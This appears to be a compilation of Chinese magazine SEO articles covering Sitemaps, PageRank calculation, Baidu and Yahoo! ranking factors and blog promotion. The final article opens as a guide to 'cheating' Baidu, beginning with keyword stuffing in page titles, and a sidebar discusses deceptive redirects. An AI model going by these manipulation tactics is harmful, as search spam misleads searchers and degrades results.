单个 Sitemaps 所包含的网址不允许超过 50000 个，而且未压缩时不能大于 10MB。这些限制条件有助于确保 Web 服务器不会因为传输非常大的文件而遇到麻烦。如果你的网站有超过 50000 个网页或者想分组进行管理的话，可以使用 Sitemaps 索引文件。当然，Sitemaps 索引文件也有一定的限制，只能列出不超过 1000 个 Sitemaps。

Sitemaps 索引文件和单个 Sitemap 相同，也使用 XML 来表示，可以使用以下几个关键词：`loc`、`lastmod`、`sitemap`、`sitemapindex`，这里的 `sitemap` 相当于 Sitemap 里面的 `<url>`，而 `sitemapindex` 则相当于 `<urlset>`。

下例展示了一个 XML 格式的 Sitemaps 索引，该 Sitemaps 索引列出了两个 Sitemaps。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<sitemapindex xmlns="http://www.google.com/schemas/sitemap/0.84">
  <sitemap>
    <loc>http://www.hacker.com.cn/sitemap1.xml.gz</loc>
    <lastmod>2004-10-01T18:23:17+00:00</lastmod>
  </sitemap>
  <sitemap>
    <loc>http://www.hacker.com.cn/sitemap2.xml.gz</loc>
    <lastmod>2005-01-01</lastmod>
  </sitemap>
</sitemapindex>
```

Sitemaps 只能索引同一个网站的 sitemap，并不能索引其他网站（包括二级域名）的 sitemap。例如，`http://www.hacker.com.cn/sitemap_index.xml` 可包含位于 `http://www.hacker.com.cn` 的 Sitemaps，但不能包含位于 `http://www.yahoo.com` 或 `http://mail.hacker.com.cn` 的 Sitemaps。与 Sitemaps 一样，你的 Sitemaps 索引文件应为 UTF-8 编码。

同时要注意的是，如果你的 Sitemap 放在以下网址：`http://www.hacker.com.cn/images/sitemap_index.xml`，索引文件内则不能包含 `http://www.hacker.com.cn/down/` 下的网址信息。所以，一般情况下均将 Sitemap 文件放在网站的根目录下，以便包含整个网站的文件。

### 向搜索引擎提交 Sitemap

当网页页面发生了改变，并更新了 Sitemaps 后，对 Google 而言，我们可以通过许多 Sitemap 工具内集成的 API 来通知 Google，或到 Google 网站管理员工具内手动重新提交。那么 Yahoo 和 Windows Live Search 呢？现阶段只能通过手动提交了。

我们只需在搜索引擎中输入 `<searchengine_URL>/ping?sitemap=sitemap_url` 即可，其中 `<searchengine_URL>` 为搜索引擎官方所提供的网址。如 Google 为 `www.google.com/webmasters/sitemaps/`，提交时需要把 `/ping?sitemap=` 后的字符改为 UTF 编码，类似如下的格式 `http%3A%2F%2Fwww.hacker.com.cn%2Fsitemap.xml`。

### Sitemaps 使用中的误区

- 1. 提交 Sitemap 即意味着 Google 将会索引、收录网页。
- 2. Sitemap 中的网页，或早或晚，都会被 Google 收录。
- 3. Sitemaps 中应包含网站的全部内容。
- 4. 使用 Google Sitemap 能提高网站/网页在 SERP（Search Engine Results Page）中的排名（或提高 SEO 效果）。
- 5. 新网站可通过 Google Sitemap 走出 Sandbox。
- 6. 在 Sitemaps 中设定某个 URL 高优先度可以提高其 PageRank（或 SERP 排名）。

千万注意哦，以上都是误区，都是错误的，可不要以为是正确的。Google Sitemap 能增强你的网站被 Google 收录的几率，但是并不能绝对保证被收录，或获得较高的 SERP 排名，以及全部收录或者较高的 PageRank。

近日，Google News 也发布了 Google News Sitemaps，和普通的 Sitemaps 类似，可以创建一个 “News Sitemaps” 来告诉 Google News 如何在网站内查找最新信息。毕竟，对于新闻而言，时效性总是最重要的，Google News 对这类 Sitemaps 的查询频率将是相当高的。不过，目前该项服务只对英文网站开放，并限定在已经进入 Google News 收录网站的范围内。

适合读者：网管、网站爱好者

前置知识：无

#### Google 排名浅谈之 PageRank


文/图 Pity570

自从黑防推出 SEO 栏目后，我现在也开始关注 SEO 技术了。目前大部分的 SEO 文章还是针对国外英文网站的优化，具有“中国特色的 SEO”专业文章看到的确实很少。针对现在众多的搜索引擎，Google 一直是口碑较好的，没有像某些中文搜索引擎，搜索时出现广告页和自己的“知道”“贴吧”的地址，因为这样很容易产生搜索作弊！

针对 Google 搜索做优化是较为简单的一种。各种 SEO 文章中都会提到 PageRank（以下简称 PR）。本文就从 PR 提高排名的技术方法上，向大家简要介绍 PR 的原理及提高方法，从而使你的页面在搜索时有一个较好的排位（本文是我从各种资料中整理出来的心得体会，与大家一同分享）。

### PR 的基本概念

PR 是基于“从许多优质的网页链接过来的网页，必定还是优质网页”的回归关系，来判定所有网页的重要性。简单地说，是通过对超过 50000 万个变量和 20 亿个词组组成的方程式进行计算，对网站的重要性做出客观的评价。比如将从网页 A 指向网页 B 的链接看做是由网页 A 对网页 B 所投的一票。Google 就是根据这个投票来判断页面重要性的（但也不仅仅是看投票）。

因为 PR 是根据反向链接来计算页面重要性的，所以提高 PR 最重要的就是提高自己网站页面的反向链接。最基本的就是被许多页面链接，从而提高自己的推荐度。Google 认为，被许多页面链接的页面，必定是受欢迎的。

反向链接只是提高 PR 的一个前提，这里要考虑“多”与“精”的区别。比如反向链接地址页面的重要性很低，而且也没有多大意义，那么你的 PR 就不会轻易提高。Google 关注的是世界范围内的所有网页，那你的反向链接有实际的价值吗？相反地，如果像 Yahoo 链接收录了你的页面，即使是一个反向链接，那也会使你的网站 PR 迅速提高。

### PR 的计算原理

PR 的计算原理其实很简单，就是将某个页面的 PR 值除以存在于这个页面的正向链接数，由此得到的值分别和正向链接所指向的页面的 PR 值相加，即得到了被链接页面的 PR 值。下面我用图片的方式给大家解释一下，如图 1 所示的 PR 概念图。


通过这幅图，我们清楚地看到了各页面 PR 值的来源。下面我们继续分析更加细致的算法，至于线性代数方面，本文不会涉及到，只是将算法通俗易懂地用文字和图片展示给大家。

我们想象一下，有 7 个网页文件，它们彼此相互封闭链接，网页的页面定义为：ID1-ID7。我们把链接关系用计算式表示成如下的关系。

| 链接源 ID | 链接目标 ID |
|---|---|
| 1 | 2,4,5,6,7 |
| 2 | 1,3 |
| 3 | 1,2 |
| 4 | 2,3,5,6 |
| 5 | 1,2,4,6 |
| 6 | 1,5,7 |
| 7 | 3,5 |

我们用1表示正向链接，0表示无此指向链接，最终构成了如下的7×7矩阵。

```
P = [
0 1 0 1 1 1 1
1 0 1 0 0 0 0
1 1 0 0 0 0 0
0 1 1 0 1 1 0
1 1 0 1 0 1 0
1 0 0 0 1 0 1
0 0 1 0 1 0 0
]
```

我们将P转置后，将各个数值除以各自的非零要素后，可以得到以下这个7×7的矩阵。

```
M = [
0 1/2 1/2 0 1/4 1/3 0
1/5 0 1/2 1/4 1/4 0 0
1/5 1/2 0 1/4 0 0 1/2
2/5 0 0 0 1/4 0 0
1/5 0 1/4 0 0 1/3 1/2
1/5 0 1/4 1/4 0 0 0
1/5 0 0 0 1/3 0 0
]
```

这样操作后，我们将非0的数看作是一个点，可以组成如下的位图。


当黑点呈横向排列时，表示这个页面有很多正向链接（即向外导出的链接）；反之，当黑点呈纵向排列时，表示这个页面有很多反向链接。当链接页面趋于无穷时，位图会出现明显近似的横线或竖线形状。运用《Google的秘密》中提出的PageRank思路，我们可以粗略估算出以上PR值（保留2位数字）。

```
PageRank
0.304**
0.166**
0.140**
0.105**
0.179**
0.045**
0.061**
```

将以上获得的PR值按顺序进行排列，可以得到下面的结果。

| 名次 | PR | 文件ID | 发出链接ID | 被链接ID |
|---|---:|---:|---|---|
| 1 | 0.304 | 1 | 2,4,5,6,7 | 2,3,5,6 |
| 2 | 0.179 | 5 | 1,2,4,6 | 1,4,6,7 |
| 3 | 0.166 | 2 | 1,3 | 1,3,4,5 |
| 4 | 0.140 | 3 | 1,2 | 2,4,7 |
| 5 | 0.105 | 4 | 2,3,5,6 | 1,5 |
| 6 | 0.061 | 7 | 3,5 | 1,6 |
| 7 | 0.045 | 6 | 1,5,7 | 4,7 |

从中我们可以看出，PR名次与反向链接数量基本成正比，而正向链接多少对PR计算影响不大。换言之，反向链接多少直接决定PR数值。这就是Google规模化数值计算问题的一个简化解释。

说了这么多，现在大家应该可以理解PR在Google排名上的优势。至于如何获取反向链接及其地址，仍需要人工解决。如果只是群发论坛，根据上面的讲解，网站所能获得的PR可想而知。

- 和PR值很高的页面做链接。
- 和虽然PR不高，但链接页面很少的网站做链接。
- 分类目录的搜索链接。

我所要说的就是这些，希望对大家网站的发展能起到有意义的作用。

## SEO小知识：欺骗性重定向

欺骗性重定向（Deceptive redirects）是指把用户访问的第一个页面（着陆页）快速重定向至另一个内容完全不同的页面。“影子域”（Shadow Domain）是常见手法之一，通常利用HTML刷新标识（Meta Refresh）实现。多数搜索引擎不索引使用该标识的页面。若必须使用重定向，应尽量延长重定向时间；还有一种情况是宣称网站迁移到新域名并诱导点击，进入后却是会员链接，这也属于欺骗性重定向行为。

适合读者：网管、网站爱好者

前置知识：无

## SEO中文排名

优化方案百度篇


文/因痛

SEO是Search Engine Optimization的缩写，用英文描述是to use some technics to make your website in the top places in Search Engine when somebody is using Search Engine to find something，翻译成中文就是“搜索引擎优化”。与之相关的搜索知识还有Search Engine Positioning（搜索引擎定位）和Search Engine Ranking（搜索引擎排名）。

SEO的主要工作是通过了解各类搜索引擎如何抓取互联网网页，如何进行索引以及如何确定其对某一特定关键词的搜索结果排名等技术，来对网页进行相关的优化，使其提高搜索引擎排名，从而提高网站访问量，最终提升网站的销售能力或宣传能力的技术。

#### 网站排名下降的主要原因

当搜索引擎的算法改变或者加强时，导致一些网站的某些关键字排名消失，一些管理员就说他们的网站消失了。可实际上并非如此。在搜索引擎算法改变或加强时会引起一些页面丢失，或者是过滤、惩罚了某一些页面而不是整个网站。

如果是网站的所有页面都消失了，可能会是由以下原因造成的。你的服务器在关键的时候出现了故障不能正常访问；网站存在robots.txt问题；或者是由于采用不正当的优化手法；你的网站被搜索引擎从其索引中清除了。

如果只是一部分的页面关键字排名下降，或者很多页面的关键字排名都非常差，这就有可能是你在优化手法上出现不正当的行为被搜索引擎发现了；搜索引擎的算法发生了重大的改变；或者你做了一些违背搜索引擎新出的原则或者在算法改变前是允许的规则，现在已经是违规了，所以对你的网站进行了一定的处罚。下面是可能导致出现这些情况的一些详细原因。

你的服务器在近期是否发生了不能正常访问的现象呢？服务器不能正常访问是导致排名下降的一个最为常见的因素，因此，你不须对网站进行任何的修改，只须管理好你的服务器，保证能正常访问，特别是在关键时候。

你是否用了robots.txt文件？如果是的话，那么你最近是否曾对其进行了修改，从而导致产生了一些语法错误，阻止搜索引擎索引你的网站？在robots.txt代码错误或者是robots.txt放置位置错误会潜在很多不可预料的错误因素，如果你想搜索引擎收录整个网站，你大可不必放置robots.txt文件，默认情况下搜索引擎是会收录整个网站的。

你最近是否不断地对你的网站进行优化呢？内部修改可以引起的潜在错误包括过多地优化某一关键字，例如修改title、meta等标签，内部链接结构，特别是链接文本的改变。如果是出于优化目的而修改链接结构及链接文本的话，一不小心就会陷入过滤陷阱，特别是滥用关键字，造成关键字密度过大。

你是否增加了一个域名转向呢？有时候搜索引擎对重转向显得非常抗拒。

你是否有一定数量的有意义链接呢？如果你使用这种策略的话，或许会取得不错的效果；但是如果你加了太多的链接到你所建的网站上，或者太多链接指向同一个URL，那么你极有可能受到搜索引擎的惩罚。

你是否是由于复制内容而受到处罚呢？比如整个网站使用了同一个模板，使用了与其他网站相同的模板；你的竞争者镜像了你的网站，从一个旧的域名重定向到一个新的域名下；或者过度依赖robots.txt来引导蜘蛛收录你的网站。

你的网站是否在某些大型网站上做广告，而最近已经把广告撤掉？在某些大网站上做广告，特别是文本广告，这很有利于提高网站的排名。一旦链接去掉，排名自然也会随之下降。

内容类聚、网站类聚等多种方式，支持用户选择时间范围，提高用户检索效率。智能性、可扩展的搜索技术保证最快最多地收集互联网信息。分布式结构、精心设计的优化算法、容错设计保证系统在大访问量下的高可用性、高扩展性、高性能和高稳定性。高可配置性使得搜索服务能够满足不同用户的需求。先进的网页动态摘要显示技术，支持多种高级检索语法，使用户查询效率更高，结果更准确，目前已支持“+”(AND)、“-”(NOT)、“|”(OR)、“site:”“link:”，还将继续增加其它高效的搜索语法。

#### 百度优化和排名技术

### 1）百度的搜索排名原则

中国所有提供搜索引擎的门户网站中，超过90%以上都由百度提供搜索引擎技术支持。百度搜索引擎使用了高性能的“网络蜘蛛”程序自动地在互联网中搜索信息，可定制、高扩展性的调度算法使得搜索器能在极短的时间内收集到最大数量的互联网信息。百度在中国各地和美国均设有服务器，搜索范围涵盖了中国大陆、香港、台湾、澳门、新加坡等华语地区以及北美、欧洲的部分站点。百度搜索引擎拥有目前世界上最大的中文信息库，总量达到6000万页以上，并且还在以每天几十万页的速度快速增长。由于后台应用了高效的信息索引算法，大大提高了检索时的响应速度和承受大访问量时的稳定性，百度搜索引擎对超过6000万网页检索一次的本地平均响应时间小于0.5秒。

### 2）百度搜索引擎的特点

基于字词结合的信息处理方式，巧妙解决了中文信息的理解问题，极大地提高了搜索的准确性和查全率。支持主流的中文编码标准，包括GBK（汉字内码扩展规范）、GB2312（简体）、BIG5（繁体），并且能够在不同的编码之间转换。智能相关度算法采用了基于内容和基于超链分析相结合的方法进行相关度评价，能够客观分析网页所包含的信息，从而最大限度保证了检索结果相关性。检索结果能标示丰富的网页属性（如标题、网址、时间、大小、编码、摘要等），并突出用户的查询串，便于用户判断是否阅读原文。百度搜索支持二次检索（又称渐进检索或逼近检索），可在上次检索结果中继续检索，逐步缩小查找范围，直至达到最小、最准确的结果集，利于用户更加方便地在海量信息中找到自己真正感兴趣的内容。相关检索词智能推荐技术，在用户第一次检索后，会提示相关的检索词，帮助用户查找更相关的结果，统计表明可以促进检索量提升10～20%。运用多线程技术、高效的搜索算法、稳定的UNIX平台和本地化的服务器，保证了最快的响应速度。百度搜索引擎在中国境内提供搜索服务，可大大缩短检索的响应时间（一个检索的平均响应时间小于0.5秒），可以提供一周、二周、四周等多种服务方式，可以在7天之内完成网页的更新，是目前更新时间最快、数据量最大的中文搜索引擎。检索结果输出支持内容类聚、网站类聚。

### 3）百度搜索竞价排名服务

是由客户为自己的网页购买关键字排名、按点击计费的一种服务。你可以通过调整每次点击付费价格，控制自己在特定关键字搜索结果中的排名，可以通过调整你的关键词捕捉到各类不同的目标访问者。

#### 百度优化实例

### 1）动态URL重写为静态URL

```
RewriteRule /news/(\d+)\.html /news\.asp\?id=$1 [N,I]
```

```
RewriteRule /news/(\d+)\.html /news/news\.php\?id=$1 [N,I]
```

通过一定的处理方式，将动态页面转化为静态页面以提高搜索引擎对网站的页面收录数量。最简单的方法是基于各种Web服务器中的URL重写转向（Rewrite）模块的URL转换，这样几乎可以不修改程序而实现将诸如“news.asp?id=1”这样的链接映射成“news/1.html”，从外面看上去和静态链接一样。Apache服务器上有一个模块（非缺省）：mod_rewrite，当需要将“news.asp?id=1”映射成“news/1.html”时，只需设置成上述规则，这样就把“/news/234.html”这样的请求映射成了“/news.asp?id=1”。当有对“/news/1.html”的请求时，Web服务器会把实际请求转发给“/news.asp?id=1”。IIS也有相应的Rewrite模块，比如ISAPI Rewrite和IIS Rewrite，语法都是基于正则表达式，因此配置几乎和Apache的mod_rewrite是相同的，比如对于某一个简单应用可以使用上述规则，这样就把“/news/1.html”映射到了“/news.php?id=1”上。

### 2）Title和Meta标签符合搜索引擎规范

网站的Title从头至尾都只有一个，这样很不利于搜索引擎的收录。同时，Description标签和Keywords标签也存在问题。

Title和META标签设计原则如下：Title中包含的关键词要放到前面，每个网页的Title都要不同，并且要与自身网页的内容项符合。每个页面的Title最好只重点突出1～2个关键词，不要太多；Title设计不要太长，最好不要超过25个汉字、50个英文字母。Description网页描述标签也要简单明了，不要超过100个字。每个网页中的Description网页描述标签都要不同，并且要与该网页内容相符合。Keywords标签也要简单明了，突出该网页的关键词。

- A）首页Title和Meta标签的设计

```html
<title>互动空间</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<meta name="keywords" content="网站设计开发">
<meta name="description" content="网站设计开发">
```

- B）二级栏目首页的Title设计，Meta标签可以沿用首页内容。设计方式采用“频道名＋首页Title”，比如下面的方式。  
`<title>资料中心 | 互动空间</title>`

- C）具体文章的Title设计。设计方式采用“文章名＋频道名＋公司名”，比如下面的方式。  
`<title>SEO中文排名优化方案－资料中心－互动空间</title>`

### 3）反向链接谈判策略

- A）物色链接交换对象

在竞争对手的网站上寻找和它们交换链接的网站，并且对这些网站进行链接互换的谈判。用关键词在搜索引擎上搜索，和自然排名前三页的网站进行互换链接的谈判，让对方为你添加一个文本文字的友情链接，且文本文字中包含你需要排名的关键词。最好能与DMOZ、hao123、265等分类目录网站上收录的和关键词有关的网站互换链接。

- B）检查链接

和对方网站进行互换链接后，到对方网站查看自己网站的链接摆放是否正确，必须是文本文字链接，且文本文字用自己的关键词。如果对方在Frame中、下拉菜单中摆放你的文本文字链接，则对于你的网站而言是没有SEO贡献的，需让对方更改。反向链接必须是文本文字，不要采用图片（比如Logo图片）、Flash。点击对方网站上自己网站的文本文字链接，看是否链接到了正确的页面。

#### 优化辅助小工具（SEOM）

网站优化后，如何快速地知道网站优化前后的排名情况呢？这里给大家推荐一款小工具SEO Monitor（SEOM），如图1所示。


图1

在“设置”中，我们可以设置“网站地址”和“关键词”，设置好后便可以通过“简单模式”、“批量模式－多引擎”和“批量模式－多关键词”三种搜索方式来搜索网站的排名情况，方便查询网站在优化前后的排名情况，便于对网站进一步优化。图2是设置查询网址为www.ota.com.cn，关键词为网站建设、网页设计、ota、空中下载的排名情况。


图2

至此，关于百度搜索的优化就介绍到这里了。虽然本文大多为介绍性的文字，但其中蕴含的知识却是每一个站长都应该掌握的。只有根据各个搜索引擎的特点，有针对性地对自己的网站进行SEO，才能保证自己的网站排名有一个明显的变化！

适合读者：网管、网站爱好者

前置知识：无

#### 针对 Yahoo! 进行网站优化


文／大橙子

针对Yahoo!的网站优化与针对其他搜索引擎并没有太大的不同，区别只是体现在细节上（对于目前Yahoo!与Yahoo中文的关系，我们并不清楚，不过按一般理解，Yahoo中文似乎并没有自己的专用算法，排名算法应基本与英文Yahoo一致，只不过加了些中国特色的修正，如3721，至于3721是不是影响SERP以及如何影响SERP就不得而知了。在此姑且认为二者使用的算法相同。），下面我们将针对其各个方面，对网站进行细节优化，以提高我们网站的Yahoo排名。

## HTML代码的优化

与Google和MSN相比，Yahoo!对HTML代码的关注程度更高。很多测试表明，HTML文件中的错误，可能在Google或MSN中影响很小甚至几乎没有，不妨碍该页面出现在SERP（Search Engine Results Page的首字母缩写，即搜索引擎结果页面，是搜索引擎对搜索请求反馈的结果）的前端，但在Yahoo!中获得成功的几率要小得多。同样的，一个修正了HTML错误、完全通过W3C认证的网站或网页，在Google或MSN中的变化很小，几乎难以察觉，但在Yahoo!中却能发现排名有质的飞跃。

在网页设计及制作中，针对Yahoo!的优化主要包括以下2个方面。

- Yahoo!认为出现在HTML文件靠前（注意，与网页显示时出现在上方的不是同一个概念）的内容是重要的内容，这就要求我们要把页面的重要部分突出地显示在HTML文件的头部。
- 良好设计的网页大都具有精简的代码，如使用外置CSS文件、JavaScript文件等大大缩小了HTML的体积，再如少用或完全不用Table也可以提高HTML代码的效率，这些都可以在很大程度上突出网页真正的内容部分。

事实上，上述两项在针对其他搜索引擎优化时也是不可忽略的，只不过Yahoo!给予了其更高的权重。

## 关键词密度

因为搜索引擎的算法总是在调整，因此，给出具体的关键词密度肯定不现实，而且关键词密度并不是一个放之四海而皆准的数字，很多情况下随行业的不同、网站类型的不同，最佳的关键词密度也有所区别。因此，可行的办法便是分析网站对应关键词的SERP，分析位于前10位的网站或网页所使用的关键词密度，毕竟理想的关键词密度总是有规律的。通常，在Yahoo! SERP中排在前10位的网站，根据关键词竞争性的不同，关键词密度除极个别的在0.5～1.0%（低端）和5.0～8.0%（高端）外，大部分在二者之间，这时候我们尽量将关键词密度设为稍低于最高值，一般便可达到针对Yahoo!进行优化的目的。

## 反向链接

关于反向链接，在大的方面各个搜索引擎的规则肯定差不多，在内容相关网站上使用关键词作Anchor Text的反向链接同样是Yahoo!排名算法中至关重要的一个因素。相比较而言，Yahoo!对反向链接的处理更类似于Google，与MSN的区别稍大。

在针对Yahoo!的网站优化中，反向链接必须考虑的方面有以下几个，我们分别对其予以阐述。

- 1）链接的质量

与Google采用PageRank和TrustRank来判定反向链接质量的方法类似，Yahoo!也使用了类似的技术剔除无关的链接或Spam。同样，在Yahoo!的排名算法中，链接的质量要重于单纯的数量。

很多时候可以通过查看链接来源网站的PageRank来权衡。尽管 Google Toolbar 中显示的 PageRank 并不准确，但至少是一个相对简单的判断依据。那么，如何判断某个链接是否被 Yahoo! 判定为高质量的链接呢？简单的办法是查看链接的来源网站是否出现在 Yahoo! 相同或相近关键词 SERP 靠前的位置；如欲更准确地判断，还需要查看该网站的 Whois 信息。Yahoo! 一般认为可依赖的网站，其域名注册时间至少满三年。另外还要看来源网站是否有足够数量的非交换链接，以及链接来源页面的出站链接数量。同一页面上出站链接数量越多，其影响力越小，等等。

### 2）链接的位置

同样的，链接出现在页面哪个位置也是必须注意的。简单地说，出现在 HTML 前端的链接比出现在后面的更有效，使用特殊格式（如粗体、斜体、不同于页面其他的颜色或字体）的链接更加有效。

### 3）单向链接

双向的交换链接在 Yahoo! 中并不是完全没有效用，但其对排名的影响远远小于单向的、内容相关链接，因为很多情况下，这样的链接更接近于因内容优秀而获得的评价。

### 4）网站或网页存在时间的影响

与 Google 的 Sandbox（沙盒效应）类似，Yahoo! 也使用了类似的机制。新建网站在运行初期，至少 6 个月甚至更长的时间内，很难在 Yahoo! 获得好的排名，即使在优化技术上运用得很完美；同时，新链接也不会很快起到其应有的对排名的促进作用，往往需要 3 到 4 个月其效果才会渐渐体现。不过，与 Google 相比，Yahoo! 的这种“考验”机制力度稍小些，但这种对新网站和新链接的共同作用，往往导致很多新建网站（新网站的反向链接肯定都是新链接嘛）在 8 个月到 1 年的时间期限内很难针对竞争性强的关键词获得好的排名。

以上就是我针对 Yahoo! 进行网站优化的经验总结，希望能对大家有些帮助！虽然我不敢保证针对这些细节对网站进行优化后，短期内网站的 Yahoo! 排名就会有立竿见影的效果，但坚持几个月，相信你的网站 Yahoo! 排名一定会有一个质的飞跃的！

适合读者：网管、网站爱好者  
前置知识：无

#### 浅谈博客的搜索引擎优化


文／图 向东

这年头，年轻人玩的就是网络！想聊天的，各种聊天工具和方式让你头大，都搞不清楚哪种好；想玩游戏的，各种特色游戏让你应接不暇；还有 N 多在开发中的让你期待已久；想看电影的，形形色色的下载工具让你犹豫不决。而这 2 年又出现了彰显个性的互动空间和平台——博客，于是不管你是老的还是少的，出名的还是无名的，都蜂拥而至，大家你一飙我一赛地着实吵得红火。开博客不难，但要真正宣传起来就难了。别人根本就不认识你，更不知道你的博客，所以我们就要对自己的博客进行 SEO，让更多的人知道我们博客的存在。

SEO 绝不等同于搜索引擎作弊，那些堆叠关键词之类的小伎俩对于目前的搜索引擎来说，已显得太小儿科了。SEO 是在规则范围内，利用合理的方式在搜索中获得更高的权重。下面就向大家介绍一下我个人的一些经验，有些方法也同样适用于其他网站。

## 提交网址给搜索引擎

几乎每个搜索引擎都提供了网址提交入口，你可以将网址提交，然后耐心等待蜘蛛的到来。我们还可以利用某些工具，比如 Google SiteMaps（http://www.google.com/webmasters/），这样可以让博客快速被 Google 收录，如图 1 所示。


图1

这里主要用到的就是左边三个链接。

- 一是网站状态向导，可以知道网站是否被 Google 收录，并且还可以知道 Googlebot 是在哪一天访问了你的网站。
- 二是网站管理员工具，也就是网站管理员分析自己网站的工具，包括对网站的诊断、网站的统计信息和网页分析等，不过这些都需要注册一个 Google 账户。需要注意的是，在注册时邮箱地址一定要填写正确，不然会收不到激活信。在登录“网站管理员工具”之后，首先要添加一个网址，也就是你博客的网址，如图 2 所示。添加网站后，就可以使用诊断、统计信息、链接和 SiteMaps 了。如果要查看详细的统计信息和错误信息报告，还要对网站所有者进行验证，这里我就不再赘述了。
- 三是将您的内容提交到 Google，用于提交网站到 Google 上，所有操作都是英文的。


图2

## 将网址提交到 DMOZ

无论是对普通上网者还是网络管理员来说，Google 都是目前世界范围内最受欢迎的搜索引擎。它每天处理的搜索请求高达 2 亿次，几乎占全世界搜索引擎搜索量的 1/3。因此，作为网络管理员如何提高网页的排名就变得至关重要，而决定其排名最重要的因素就是你的网页在 Google 系统中的 PageRank（以下简称 PR）值的高低。所以，提高网页的 PR 值就太重要了。

想获得较高的 PR 值必须要让更多拥有高 PR 值的网页上有你的链接；不过要达到这一点是漫长的，你需要不断提高自己网页的质量以及长期的过程。不过，让你的 PR 值得到快速提高，就是我要介绍的终极方法了，也是你最应该做的一件事，就是向 DMOZ 提交你的网站，从而被 DMOZ（即 ODP）收录。

众所周知，Google 的 PageRank 系统对那些门户网站目录，如 DMOZ、Yahoo 和 Looksmart 尤为重要，特别是对 DMOZ。一个网站在 DMOZ 上的链接对 Google 的 PageRank 来说就像金子一样有价值。这时候收录该网站的那个 DMOZ 目录页的 PR 分值，也就变得相当重要了。我看到过有一些站点，就因为被 ODP 收录，从而身价倍增；其 PR 值在 Google 上立即得到提升；这就是因为 Google 使用了它自己的 ODP 版本作为它的网站目录。大家可以到此查看：http://www.google.com/dirhp?hl=zh-CN&tab=wd&q=。更有趣的是，在此页面最下方“建造全球最大的人工网页目录”的链接就是 DMOZ 网站的。

## 充分利用博客本身的工具

目前绝大部分博客都提供了评论功能以及引用地址，而且评论时都允许留下你的 URL，向其他博客发送引用也会出现你的 URL，这不但促进了博客之间的交流，而且对博客的 SEO 是十分有利的。

## 站内链接的使用

外部链接对于网站排名影响的重要性不言而喻，不过外部链接是难以控制的，而站内链接也是十分重要的，不容忽视。下面给大家提供一下我优化站内链接的经验。

- **建立网站地图**：只要有可能，最好给网站建立一个完整的网站地图 SiteMap，同时把网站地图的链接放在首页上，使搜索引擎能很方便地发现和抓取所有网页。大型网站可将网站地图分成多个文件，每个文件不要放太多网页。
- **每个网页最多离首页四次点击**：对中小型网站来说，要确保从首页出发，四次点击之内就要到达任何一个网页（越少越好）。配合网站地图使用，这一点通常可行。
- **尽量使用文字导航**：网站导航系统最好使用文字链接。图片或 JS 下拉菜单在美观上有优势，但 SEO 效果通常不如文字链接，搜索引擎更易抓取并理解栏目内容。站底部或者在网站地图中应该有所有栏目的文字链接。

## 4）链接文字

网站导航中的链接文字应该准确描述栏目的内容，自然而然在链接文字中就会有关键词；但是也不要在这里堆砌关键词。在网页正文文章中提到其他网页内容的时候，可以自然而然地使用关键词链接到其他网页。反向链接中的关键词也是排名的重要因素之一，在自己的站内自己有完全的控制权。

## 5）整站的 PR 传递和流动

只要有好的网站整体结构，整个网站的 PR 传递应该是很均匀的：首页最高，栏目页次之，内容页再次。但有的时候，我们可以通过网页的链接影响 PR 和重要性的传递，使某一页或某几页的 PR 值和重要性升高，这几页也是你重点要推的网页。

## 6）网页的互相链接

以前说过网站的树型结构，不过要注意的是，这种树型结构不是说各个栏目下的文章页之间没有链接，恰恰相反，应该在不同栏目的网页中链接向其他栏目的相关网页，整个网站的结构看起来更像蜘蛛网，既有由栏目组成的主脉，也有网页之间的适当链接。

## URL 的命名

不要小看了这条。个人经验这是对搜索引擎关键词的匹配，URL 中出现的关键词非常重要。因此最好在 URL 中对文章的主要内容进行详细的说明，用英文当然好，不过有时候汉语拼音也很有用。

## 页面的静态化

静态化的页面对搜索引擎是最友好的，最容易被收录，也容易获得较高的排名。虽然目前大多数搜索已经能够收录动态页面，不过静态页面的优势依然很大。对于目前主流的博客程序来说，WordPress 需要很高的服务器配置才能输出静态页面，而 Movable Type 的配置又比较复杂，个人推荐使用国人开发的 Z-Blog。

## 提交 Google 博客搜索

Google 博客搜索（http://blogsearch.google.com/）给我们提供了一项实用的功能，允许用户向 Google 发送一个 ping 命令通知系统抓取你的博客。如果你的博客还没有被 Google 博客搜索发现，你应该火速地使用该工具；如果 Google 每次要间隔很长时间才会收录你的更新内容，那么你应该在每次更新文章以后都主动使用该工具通知 Google。该工具的网址是 http://blogsearch.google.com/ping，其实就是一个提交的网页，如图 3 所示。


图3

因为我不是 SEO 专家，所以这里谈的都是个人博客 SEO 过程中的感受与经验总结；其中如有不妥与错误之处，还请大家指正，也希望能与广大博客朋友们一起探讨。最后给大家附上常用搜索引擎及目录免费登录入口。

## 智能搜索引擎

- Google  http://www.google.com/intl/zh-CN/add_url.html
- 百度  http://www.baidu.com/search/url_submit.htm
- 中搜  http://service.chinasearch.com.cn/NetSearch/pageurlrecord/frontpageurl.jsp
- 搜狐  http://db.sohu.com/regurl/regform.asp?Step=REGFORM&class=
- 网易  http://seek.163.com/cgi-bin/search/add_url.cgi
- 新浪  http://bizsite.sina.com.cn/newbizsite/docc/index-2jifu-09.htm
- 一搜  http://www.yisou.com/search_submit.html?source=yisou_www_hp

## 分类目录

- 雅虎中国目录  http://cn.yahoo.com/docs/info/suggest.html
- DMOZ 目录  http://dmoz.org/World/Chinese_Simplified

## 自动提交

英文搜索引擎自动提交：http://www.trafficzap.com/searchsubmit.php（提交后会收到它发来的邮件，内容是你的网站已经成功提交，请每月提交一次；并附上了一些对站长比较感兴趣的网站，当然，这些网站都是英文的。）

适合读者：网管；网站爱好者  
前置知识：无

## 轻轻松松提高百度排名之作弊篇

文/图 网络游侠

看多了百度优化的文章？那就再看看这篇吧！其实对于国内大多数网站来说，百度才是真正的“救星”。虽然搜索引擎优化最早来自于对 Google 的研究，但是不可否认的是，在国内，百度才是真真正正的 No.1！因此，对百度的优化才是重中之重！

很多朋友在问，我怎么对百度做优化呢？当然以后我会告诉大家怎么做优化，在此之前，我们将着重讨论如何钻百度的空子实现百度作弊。嘿嘿，这个以前黑防没有教你吧？俺就钻了这个空子……

下面我们先来看看以前很管用的作弊方法。

- 1）疯狂地在 Title 之间罗列关键字

很可惜，在 Title 之间写关键字现在被百度识别得比较厉害，比如你的网站关键词这么写：

```html
<title>黑客, 黑客防线 黑客防线网站, 黑客防线论坛, 黑客防线光盘, 黑客防线老大, 黑客防线编辑, 黑客防线地址, 黑客防线编辑部</title>
```

